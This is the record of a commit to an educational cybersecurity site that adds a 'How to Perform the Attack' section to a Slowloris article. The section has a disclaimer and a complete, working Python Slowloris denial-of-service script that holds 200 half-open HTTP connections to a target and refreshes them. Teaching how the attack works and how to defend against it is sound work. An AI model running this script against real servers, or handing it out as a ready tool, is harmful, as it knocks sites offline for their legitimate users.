

Before and after one commit to Ajay-singh1/synapse, a plain HTML site: page cybersecurity/slowloris.html in a window 1280 px wide. Shown: the part 880-1680 px from the top of the page, 1478 px wide, since content can reach past the window. Drawn offline with Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
docs: add more detail to slowloris article

```diff
--- a/cybersecurity/slowloris.html
+++ b/cybersecurity/slowloris.html
@@ -56,6 +56,58 @@
                 <li>Legitimate users are unable to connect to the server, resulting in a Denial of Service.</li>
             </ol>
         </h2><br>
+        <h1>How to Perform the Attack</h1><br>
+        <h2>
+            <strong>Disclaimer:</strong> This information is for educational purposes only. Performing a Slowloris attack on a server without explicit permission is illegal and can have serious consequences.
+        </h2><br>
+        <h2>
+            A Slowloris attack can be performed using a simple Python script. The following script demonstrates the basic principle of the attack:
+        </h2><br>
+        <pre>
+            <code>
+import socket
+import random
+import time
+
+target_ip = "X.X.X.X"
+target_port = 80
+
+connections = []
+
+def create_socket():
+    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+    s.settimeout(4)
+    s.connect((target_ip, target_port))
+    s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000)).encode("utf-8"))
+    s.send("User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36\r\n".encode("utf-8"))
+    s.send("Accept-language: en-US,en,q=0.5\r\n".encode("utf-8"))
+    return s
+
+for _ in range(200):
+    try:
+        s = create_socket()
+        connections.append(s)
+    except socket.error:
+        break
+
+while True:
+    for s in list(connections):
+        try:
+            s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
+        except socket.error:
+            connections.remove(s)
+
+    for _ in range(200 - len(connections)):
+        try:
+            s = create_socket()
+            connections.append(s)
+        except socket.error:
+            break
+
+    time.sleep(15)
+
+            </code>
+        </pre>
         <h1>Why it's Effective</h1><br>
         <h2>Slowloris is effective because it doesn't require a lot of bandwidth. It's a "low and slow" attack that can be launched from a single machine. It's also difficult to detect because the traffic it generates looks like legitimate, albeit slow, client traffic.</h2><br>
         <h1>How to Defend Against a Slowloris Attack</h1><br>
```
